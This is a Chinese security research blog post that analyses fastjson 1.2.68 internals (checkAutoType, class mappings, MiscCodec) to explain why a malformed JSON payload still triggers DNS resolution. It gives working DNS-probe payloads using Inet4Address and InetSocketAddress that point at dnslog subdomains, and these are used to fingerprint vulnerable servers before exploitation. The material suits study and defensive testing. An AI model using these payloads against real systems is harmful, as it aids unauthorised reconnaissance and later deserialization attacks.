# 高版本fastjson 为何畸形 payload 能够实现探测解析-先知社区

> **来源**: https://xz.aliyun.com/news/18943  
> **文章ID**: 18943

---

# 高版本fastjson 为何畸形 payload 能够实现探测解析

## 前言

前几天都在研究高版本的fastjson，都知道高版本的fastjson对于@type多了非常多的限制，导致反序列化漏洞越来越难，特别是白名单让漏洞更难利用，不过需要探测 fastjson 是作为打入的第一道关卡，探测的手法也多种多样，下面来分析一个畸形 payload ，不符合 json 格式但是任然能够解析

## dns探测原理

DNS 探测的工作原理

DNS 探测通常涉及发送 DNS 请求来解析目标域名，并通过解析结果获取相关信息。以下是 DNS 探测的关键步骤：

* **发送 DNS 查询**：探测工具发送 DNS 查询请求，通常会查询 A 记录、NS 记录、MX 记录、TXT 记录等。
* **分析 DNS 响应**：根据返回的 DNS 响应信息，分析目标域的 IP 地址、服务器信息、邮件服务器、DNS 服务器以及其他相关信息。
* **域名层次结构探测**：通过查询不同类型的 DNS 记录，了解域名的层次结构、权威 DNS 服务器、别名等信息。
* **反向 DNS 探测**：通过 PTR 记录进行反向查询，找出与特定 IP 地址关联的域名。

简单来说

DNS 探测的基本原理是利用 DNS 系统的查询和响应机制，获取域名解析信息。它在网络安全和渗透测试中是常见的信息收集技术，可以用于了解目标网络的结构、服务器地址及其配置。有效的防护措施可以减少 DNS 探测带来的风险。

## fastjson高版本限制

这里以1.2.68来说明

关键方法

```
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    }

    if (autoTypeCheckHandlers != null) {
        for (AutoTypeCheckHandler h : autoTypeCheckHandlers) {
            Class<?> type = h.handler(typeName, expectClass, features);
            if (type != null) {
                return type;
            }
        }
    }

    final int safeModeMask = Feature.SafeMode.mask;
    boolean safeMode = this.safeMode
            || (features & safeModeMask) != 0
            || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
    if (safeMode) {
        throw new JSONException("safeMode not support autoType : " + typeName);
    }

    if (typeName.length() >= 192 || typeName.length() < 3) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    final boolean expectClassFlag;
    if (expectClass == null) {
        expectClassFlag = false;
    } else {
        if (expectClass == Object.class
                || expectClass == Serializable.class
                || expectClass == Cloneable.class
                || expectClass == Closeable.class
                || expectClass == EventListener.class
                || expectClass == Iterable.class
                || expectClass == Collection.class
                ) {
            expectClassFlag = false;
        } else {
            expectClassFlag = true;
        }
    }

    String className = typeName.replace('$', '.');
    Class<?> clazz;

    final long BASIC = 0xcbf29ce484222325L;
    final long PRIME = 0x100000001b3L;

    final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
    if (h1 == 0xaf64164c86024f1aL) { // [
        throw new JSONException("autoType is not support. " + typeName);
    }

    if ((h1 ^ className.charAt(className.length() - 1)) * PRIME == 0x9198507b5af98f0L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    final long h3 = (((((BASIC ^ className.charAt(0))
            * PRIME)
            ^ className.charAt(1))
            * PRIME)
            ^ className.charAt(2))
            * PRIME;

    long fullHash = TypeUtils.fnv1a_64(className);
    boolean internalWhite = Arrays.binarySearch(INTERNAL_WHITELIST_HASHCODES,  fullHash) >= 0;

    if (internalDenyHashCodes != null) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            hash ^= className.charAt(i);
            hash *= PRIME;
            if (Arrays.binarySearch(internalDenyHashCodes, hash) >= 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    if ((!internalWhite) && (autoTypeSupport || expectClassFlag)) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            hash ^= className.charAt(i);
            hash *= PRIME;
            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
                if (clazz != null) {
                    return clazz;
                }
            }
            if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                if (Arrays.binarySearch(acceptHashCodes, fullHash) >= 0) {
                    continue;
                }

                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    clazz = TypeUtils.getClassFromMapping(typeName);

    if (clazz == null) {
        clazz = deserializers.findClass(typeName);
    }

    if (clazz == null) {
        clazz = typeMapping.get(typeName);
    }

    if (internalWhite) {
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
    }

    if (clazz != null) {
        if (expectClass != null
                && clazz != java.util.HashMap.class
                && !expectClass.isAssignableFrom(clazz)) {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        }

        return clazz;
    }

    if (!autoTypeSupport) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            char c = className.charAt(i);
            hash ^= c;
            hash *= PRIME;

            if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            // white list
            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);

                if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                return clazz;
            }
        }
    }

    boolean jsonType = false;
    InputStream is = null;
    try {
        String resource = typeName.replace('.', '/') + ".class";
        if (defaultClassLoader != null) {
            is = defaultClassLoader.getResourceAsStream(resource);
        } else {
            is = ParserConfig.class.getClassLoader().getResourceAsStream(resource);
        }
        if (is != null) {
            ClassReader classReader = new ClassReader(is, true);
            TypeCollector visitor = new TypeCollector("<clinit>", new Class[0]);
            classReader.accept(visitor);
            jsonType = visitor.hasJsonType();
        }
    } catch (Exception e) {
        // skip
    } finally {
        IOUtils.close(is);
    }

    final int mask = Feature.SupportAutoType.mask;
    boolean autoTypeSupport = this.autoTypeSupport
            || (features & mask) != 0
            || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

    if (autoTypeSupport || jsonType || expectClassFlag) {
        boolean cacheClass = autoTypeSupport || jsonType;
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
    }

    if (clazz != null) {
        if (jsonType) {
            TypeUtils.addMapping(typeName, clazz);
            return clazz;
        }

        if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                ) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (expectClass != null) {
            if (expectClass.isAssignableFrom(clazz)) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            } else {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
        }

        JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
        if (beanInfo.creatorConstructor != null && autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }

    if (!autoTypeSupport) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    if (clazz != null) {
        TypeUtils.addMapping(typeName, clazz);
    }

    return clazz;
}
```

纵观能够return的地方，autoTypeSupport都是默认开启的，autoTypeSupport的开启，也决定了黑白名单的阻拦，但是如何绕过呢？还是有可乘之机，比如其他可以return的地方

```
clazz = TypeUtils.getClassFromMapping(typeName);

if (clazz == null) {
    clazz = deserializers.findClass(typeName);
}

if (clazz == null) {
    clazz = typeMapping.get(typeName);
}

if (internalWhite) {
    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
}

if (clazz != null) {
    if (expectClass != null
            && clazz != java.util.HashMap.class
            && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }

    return clazz;
}
```

如果Mapping中已经有了，看看mapping有什么可以利用的

```
private static void addBaseClassMappings(){
    mappings.put("byte", byte.class);
    mappings.put("short", short.class);
    mappings.put("int", int.class);
    mappings.put("long", long.class);
    mappings.put("float", float.class);
    mappings.put("double", double.class);
    mappings.put("boolean", boolean.class);
    mappings.put("char", char.class);
    mappings.put("[byte", byte[].class);
    mappings.put("[short", short[].class);
    mappings.put("[int", int[].class);
    mappings.put("[long", long[].class);
    mappings.put("[float", float[].class);
    mappings.put("[double", double[].class);
    mappings.put("[boolean", boolean[].class);
    mappings.put("[char", char[].class);
    mappings.put("[B", byte[].class);
    mappings.put("[S", short[].class);
    mappings.put("[I", int[].class);
    mappings.put("[J", long[].class);
    mappings.put("[F", float[].class);
    mappings.put("[D", double[].class);
    mappings.put("[C", char[].class);
    mappings.put("[Z", boolean[].class);
    Class<?>[] classes = new Class[]{
            Object.class,
            java.lang.Cloneable.class,
            loadClass("java.lang.AutoCloseable"),
            java.lang.Exception.class,
            java.lang.RuntimeException.class,
            java.lang.IllegalAccessError.class,
            java.lang.IllegalAccessException.class,
            java.lang.IllegalArgumentException.class,
            java.lang.IllegalMonitorStateException.class,
            java.lang.IllegalStateException.class,
            java.lang.IllegalThreadStateException.class,
            java.lang.IndexOutOfBoundsException.class,
            java.lang.InstantiationError.class,
            java.lang.InstantiationException.class,
            java.lang.InternalError.class,
            java.lang.InterruptedException.class,
            java.lang.LinkageError.class,
            java.lang.NegativeArraySizeException.class,
            java.lang.NoClassDefFoundError.class,
            java.lang.NoSuchFieldError.class,
            java.lang.NoSuchFieldException.class,
            java.lang.NoSuchMethodError.class,
            java.lang.NoSuchMethodException.class,
            java.lang.NullPointerException.class,
            java.lang.NumberFormatException.class,
            java.lang.OutOfMemoryError.class,
            java.lang.SecurityException.class,
            java.lang.StackOverflowError.class,
            java.lang.StringIndexOutOfBoundsException.class,
            java.lang.TypeNotPresentException.class,
            java.lang.VerifyError.class,
            java.lang.StackTraceElement.class,
            java.util.HashMap.class,
            java.util.Hashtable.class,
            java.util.TreeMap.class,
            java.util.IdentityHashMap.class,
            java.util.WeakHashMap.class,
            java.util.LinkedHashMap.class,
            java.util.HashSet.class,
            java.util.LinkedHashSet.class,
            java.util.TreeSet.class,
            java.util.ArrayList.class,
            java.util.concurrent.TimeUnit.class,
            java.util.concurrent.ConcurrentHashMap.class,
            java.util.concurrent.atomic.AtomicInteger.class,
            java.util.concurrent.atomic.AtomicLong.class,
            java.util.Collections.EMPTY_MAP.getClass(),
            java.lang.Boolean.class,
            java.lang.Character.class,
            java.lang.Byte.class,
            java.lang.Short.class,
            java.lang.Integer.class,
            java.lang.Long.class,
            java.lang.Float.class,
            java.lang.Double.class,
            java.lang.Number.class,
            java.lang.String.class,
            java.math.BigDecimal.class,
            java.math.BigInteger.class,
            java.util.BitSet.class,
            java.util.Calendar.class,
            java.util.Date.class,
            java.util.Locale.class,
            java.util.UUID.class,
            java.sql.Time.class,
            java.sql.Date.class,
            java.sql.Timestamp.class,
            java.text.SimpleDateFormat.class,
            com.alibaba.fastjson.JSONObject.class,
            com.alibaba.fastjson.JSONPObject.class,
            com.alibaba.fastjson.JSONArray.class,
    };
    for(Class clazz : classes){
        if(clazz == null){
            continue;
        }
        mappings.put(clazz.getName(), clazz);
    }
}
```

只有是其中的类，都是可以利用的

或者看deserializers

```
clazz = deserializers.findClass(typeName);
```

```
private void initDeserializers() {
    deserializers.put(SimpleDateFormat.class, MiscCodec.instance);
    deserializers.put(java.sql.Timestamp.class, SqlDateDeserializer.instance_timestamp);
    deserializers.put(java.sql.Date.class, SqlDateDeserializer.instance);
    deserializers.put(java.sql.Time.class, TimeDeserializer.instance);
    deserializers.put(java.util.Date.class, DateCodec.instance);
    deserializers.put(Calendar.class, CalendarCodec.instance);
    deserializers.put(XMLGregorianCalendar.class, CalendarCodec.instance);

    deserializers.put(JSONObject.class, MapDeserializer.instance);
    deserializers.put(JSONArray.class, CollectionCodec.instance);

    deserializers.put(Map.class, MapDeserializer.instance);
    deserializers.put(HashMap.class, MapDeserializer.instance);
    deserializers.put(LinkedHashMap.class, MapDeserializer.instance);
    deserializers.put(TreeMap.class, MapDeserializer.instance);
    deserializers.put(ConcurrentMap.class, MapDeserializer.instance);
    deserializers.put(ConcurrentHashMap.class, MapDeserializer.instance);

    deserializers.put(Collection.class, CollectionCodec.instance);
    deserializers.put(List.class, CollectionCodec.instance);
    deserializers.put(ArrayList.class, CollectionCodec.instance);

    deserializers.put(Object.class, JavaObjectDeserializer.instance);
    deserializers.put(String.class, StringCodec.instance);
    deserializers.put(StringBuffer.class, StringCodec.instance);
    deserializers.put(StringBuilder.class, StringCodec.instance);
    deserializers.put(char.class, CharacterCodec.instance);
    deserializers.put(Character.class, CharacterCodec.instance);
    deserializers.put(byte.class, NumberDeserializer.instance);
    deserializers.put(Byte.class, NumberDeserializer.instance);
    deserializers.put(short.class, NumberDeserializer.instance);
    deserializers.put(Short.class, NumberDeserializer.instance);
    deserializers.put(int.class, IntegerCodec.instance);
    deserializers.put(Integer.class, IntegerCodec.instance);
    deserializers.put(long.class, LongCodec.instance);
    deserializers.put(Long.class, LongCodec.instance);
    deserializers.put(BigInteger.class, BigIntegerCodec.instance);
    deserializers.put(BigDecimal.class, BigDecimalCodec.instance);
    deserializers.put(float.class, FloatCodec.instance);
    deserializers.put(Float.class, FloatCodec.instance);
    deserializers.put(double.class, NumberDeserializer.instance);
    deserializers.put(Double.class, NumberDeserializer.instance);
    deserializers.put(boolean.class, BooleanCodec.instance);
    deserializers.put(Boolean.class, BooleanCodec.instance);
    deserializers.put(Class.class, MiscCodec.instance);
    deserializers.put(char[].class, new CharArrayCodec());

    deserializers.put(AtomicBoolean.class, BooleanCodec.instance);
    deserializers.put(AtomicInteger.class, IntegerCodec.instance);
    deserializers.put(AtomicLong.class, LongCodec.instance);
    deserializers.put(AtomicReference.class, ReferenceCodec.instance);

    deserializers.put(WeakReference.class, ReferenceCodec.instance);
    deserializers.put(SoftReference.class, ReferenceCodec.instance);

    deserializers.put(UUID.class, MiscCodec.instance);
    deserializers.put(TimeZone.class, MiscCodec.instance);
    deserializers.put(Locale.class, MiscCodec.instance);
    deserializers.put(Currency.class, MiscCodec.instance);

    deserializers.put(Inet4Address.class, MiscCodec.instance);
    deserializers.put(Inet6Address.class, MiscCodec.instance);
    deserializers.put(InetSocketAddress.class, MiscCodec.instance);
    deserializers.put(File.class, MiscCodec.instance);
    deserializers.put(URI.class, MiscCodec.instance);
    deserializers.put(URL.class, MiscCodec.instance);
    deserializers.put(Pattern.class, MiscCodec.instance);
    deserializers.put(Charset.class, MiscCodec.instance);
    deserializers.put(JSONPath.class, MiscCodec.instance);
    deserializers.put(Number.class, NumberDeserializer.instance);
    deserializers.put(AtomicIntegerArray.class, AtomicCodec.instance);
    deserializers.put(AtomicLongArray.class, AtomicCodec.instance);
    deserializers.put(StackTraceElement.class, StackTraceElementDeserializer.instance);

    deserializers.put(Serializable.class, JavaObjectDeserializer.instance);
    deserializers.put(Cloneable.class, JavaObjectDeserializer.instance);
    deserializers.put(Comparable.class, JavaObjectDeserializer.instance);
    deserializers.put(Closeable.class, JavaObjectDeserializer.instance);

    deserializers.put(JSONPObject.class, new JSONPDeserializer());
}
```

只要是其中之一也是可以的

## 寻找利用类

这里眼疾手快，可以选择

```
deserializers.put(Inet4Address.class, MiscCodec.instance);
deserializers.put(Inet6Address.class, MiscCodec.instance);
deserializers.put(InetSocketAddress.class, MiscCodec.instance);
```

一看就是和dns探测脱不了关系

### Inet4Address||Inet6Address

#### 测试

```
import com.alibaba.fastjson.JSON;
public class test {
    public static void main(String[] args) {
        String exp="{"@type":"java.net.Inet4Address","val":"8b2a31a1.log.dnslog.sbs."}";
        JSON.parse(exp);
    }
}
```



#### 构造分析

需要知道如何构造，那就得知道fastjson是如何解析的了

可以看到已经是从deserializers找到clazz了



之后会回到DefaultJSONParser.java，开始反序列化

```
Object obj = deserializer.deserialze(this, clazz, fieldName);
```

进入MiscCodec的deserialze方法

把@type部分解析完开始解析val了

首先会判断if (clazz == InetSocketAddress.class)，当然为flase，进入到下一个if，首先这个if为真

```
if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
    parser.resolveStatus = DefaultJSONParser.NONE;
    parser.accept(JSONToken.COMMA);

    if (lexer.token() == JSONToken.LITERAL_STRING) {
        if (!"val".equals(lexer.stringVal())) {
            throw new JSONException("syntax error");
        }
        lexer.nextToken();
    } else {
        throw new JSONException("syntax error");
    }

    parser.accept(JSONToken.COLON);

    objVal = parser.parse();

    parser.accept(JSONToken.RBRACE);
}
```

parser.accept(JSONToken.COMMA);也是成立的COMMA也就是,的意思

然后接下来判断后面是不是String字符串，我们输入的是val，当然是，然后这里判断

```
if (!"val".equals(lexer.stringVal()))
```

如果成立会直接抛出异常，所以这里我们必须把key命令为val，这也是我们构造为什么是val属性的原因

然后开始解析我们val的value，也就是地址

```
parse:1435, DefaultJSONParser (com.alibaba.fastjson.parser) [2]
parse:1367, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:261, MiscCodec (com.alibaba.fastjson.serializer)
```

来到parse方法

```
case LITERAL_STRING:
    String stringLiteral = lexer.stringVal();
    lexer.nextToken(JSONToken.COMMA);

    if (lexer.isEnabled(Feature.AllowISO8601DateFormat)) {
        JSONScanner iso8601Lexer = new JSONScanner(stringLiteral);
        try {
            if (iso8601Lexer.scanISO8601DateIfMatch()) {
                return iso8601Lexer.getCalendar().getTime();
            }
        } finally {
            iso8601Lexer.close();
        }
    }

    return stringLiteral;
```

因为我们传入的是一个string，直接返回输入的字符串



继续像下走，我们是符合这个if的

```
if (clazz == InetAddress.class || clazz == Inet4Address.class || clazz == Inet6Address.class) {
    try {
        return (T) InetAddress.getByName(strVal);
    } catch (UnknownHostException e) {
        throw new JSONException("deserialize inet adress error", e);
    }
}
```

会来到如下的调用栈，然后完成dns的解析

```
<init>:102, Inet4Address (java.net)
lookupAllHostAddr:-1, Inet6AddressImpl (java.net)
lookupAllHostAddr:928, InetAddress$2 (java.net)
getAddressesFromNameService:1323, InetAddress (java.net)
getAllByName0:1276, InetAddress (java.net)
getAllByName:1192, InetAddress (java.net)
getAllByName:1126, InetAddress (java.net)
getByName:1076, InetAddress (java.net)
deserialze:335, MiscCodec (com.alibaba.fastjson.serializer)
parseObject:395, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1401, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1367, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:183, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parse:149, JSON (com.alibaba.fastjson)
main:17, test
```

### InetSocketAddress

当我兴高采烈使用上面的paylaod嵌套一下的时候

#### 测试

```
import com.alibaba.fastjson.JSON;
public class test {
    public static void main(String[] args) {
        String jsonString="{"@type":"java.net.InetSocketAddress","val":"8b2a31a1.log.dnslog.sbs."}";
        String exp="{"@type":"java.net.Inet4Address","val":"8b2a31a1.log.dnslog.sbs."}";
        JSON.parse(jsonString);
    }
}
```

意想不到的是Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect {, actual ,  
 at com.alibaba.fastjson.parser.DefaultJSONParser.accept(DefaultJSONParser.java:1503)

竟然报了一个语法的错误？？？

我左看右看上看下看，还是看不出哪里有问题？？

#### 问题调试与解决

##### 第一次问题

那就调试吧，还是一如既往的进入了checkAutoType方法

一如既往的加载了clazz



还是来到了MiscCodec的deserialze方法

```
deserialze:200, MiscCodec (com.alibaba.fastjson.serializer)
parseObject:395, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1401, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1367, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:183, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parse:149, JSON (com.alibaba.fastjson)
main:17, test
```

不管这次会进入第一个if条件

直接在parser.accept(JSONToken.LBRACE);暴毙了

原因如下



ok，我就按照你的来，重新写一下paylaod

##### 第二次问题

```
String jsonString="{"@type":"java.net.InetSocketAddress"{"val":"8b2a31a1.log.dnslog.sbs."}}";
```

不过这个根本不符合json的语法，不管了

可以这次没有报错，直接通过了



来到如下逻辑



会进入else，在解析的时候也是成功返回了我们的地址



最后也是成功达到了return (T) new InetSocketAddress(address, port);

但是我们的值都没有传入进去，那我们需要一个address的参数，根据if的逻辑我们再去改改



##### 第三次问题

paylaod

```
String jsonString="{"@type":"java.net.InetSocketAddress"{"address":"51909e06.log.dnslog.sbs."}}";
```

这次走入这个逻辑

```
if (key.equals("address")) {
    parser.accept(JSONToken.COLON);
    address = parser.parseObject(InetAddress.class);
}
```

开始解析address的值了

```
deserialze:200, MiscCodec (com.alibaba.fastjson.serializer) [2]
parseObject:688, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:650, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:218, MiscCodec (com.alibaba.fastjson.serializer) [1]
parseObject:395, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1401, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1367, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:183, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parse:149, JSON (com.alibaba.fastjson)
main:17, test
```

又会再次来到deserialze:200, MiscCodec

因为传入的是parser.parseObject(InetAddress.class)，

会走到下一个if判断



在这卡死了，需要后面是个“,”符号

再看看后面，其实和Inet4Address一样的根据val的值去解析我们的地址

##### 大功告成

改改paylaod

```
String jsonString="{"@type":"java.net.InetSocketAddress"{"address":,"val":"51909e06.log.dnslog.sbs."}}";
```

成功



虽然是个一点不像json语法的，但是只要fastjson可以解析就ok了
